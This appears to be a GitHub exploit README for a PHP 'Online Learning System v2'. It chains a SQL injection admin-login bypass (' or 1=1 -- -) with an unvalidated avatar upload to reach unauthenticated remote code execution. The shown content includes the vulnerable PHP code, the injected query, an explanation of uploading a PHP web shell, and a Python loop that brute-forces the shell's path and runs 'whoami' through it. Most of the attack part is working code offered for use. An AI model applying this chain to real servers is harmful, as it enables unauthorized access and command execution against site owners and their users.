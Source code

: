 # online-learning-system-v2-sqli-authentication-bypass-file-upload-unauthenticated-RCE
* Exploit title : online-learning-system-v2-sqli-authentication-bypass-file-upload-unauthenticated-RCE
* Vendor Homepage : https://github.com/oretnom23  / https://www.sourcecodester.com/php/14929/online-learning-system-v2-using-php-free-source-code.html
* Software Link : https://www.sourcecodester.com/sites/default/files/download/oretnom23/elearning_v2_0.zip
## Sql injection authentication bypass
* the attacker can bypass admin login from by submitting sql qurey in the username paramater : 
* before the injection
```php
	public function login(){
		extract($_POST);

		$qry = $this->conn->query("SELECT * from users where username = '$username' and password = md5('$password') ");
		if($qry->num_rows > 0){
			foreach($qry->fetch_array() as $k => $v){
				if(!is_numeric($k) && $k != 'password'){
					$this->settings->set_userdata($k,$v);
				}
```
* after the injection
```php
	public function login(){
		extract($_POST);

		$qry = $this->conn->query("SELECT * from users where username = '$username'' or 1=1 -- -' and password = md5('$password') ");
		if($qry->num_rows > 0){
			foreach($qry->fetch_array() as $k => $v){
				if(!is_numeric($k) && $k != 'password'){
					$this->settings->set_userdata($k,$v);
				}
```
it doesn't matter if username supplied is exsists or not the most important thing is the booleon injection (or 1=1) it will return true and let us login without supllying password
everything after this qurey (or 1=1 -- -) will be ignored bc of the comment (-- -)
## file upload
```php
		$save = $this->conn->query($sql);
		if($save){
			if(isset($_FILES['img']) && $_FILES['img']['tmp_name'] != ''){
					$ext = explode('.', $_FILES['img']['name']);
					$fname = 'uploads/uvatar_'.$id.'.'.$ext[1];
					if(is_file('../'.$fname))
						unlink('../'.$fname);
					$move = move_uploaded_file($_FILES['img']['tmp_name'],'../'. $fname);
					if($move){
						$this->conn->query("UPDATE students set avatar = '$fname' where id = $id ");
					}
			}
			$this->settings->set_flashdata('success'," Subject Successfully saved.");
			return 1;
```
* as you see the php code above there is no extenction validation or mime type or magic byte validation you can upload your php malicious directly
* also the script upload your php file to this directory /uploads/ and rename it to 'Favatar_' + the id  + extenction 
```php
$fname = 'uploads/uvatar_'.$id.'.'.$ext[1];
```
* i made simple for loop to bruteforce the id check the python script above
```python
		for i in range(0,rangee):
			try:
				with requests.get(url + "/uploads/Favatar_" + str(i) + ".php?cmd=whoami",allow_redirects=False) as response3:
					if "nikmok" in response3.text and response3.status_code == 200:
						print("\n" + Fore.GREEN + "[+] shell found : " + response3.url +"\n")
						break
						with open("shell.txt",mode="w+") as writer:
							writer.write(response3.url)
					else:
						print( Fore.RED + "[-] shell not found : " + response3.url)
			except requests.HTTPError as exception2:
				print("[-] HTTP Error : {0} ".format(exception2))
```
## RCE ?! : 
* with two these crafted vulnerbilities we can gain remote command exection
## POC
* check the python script above
* 

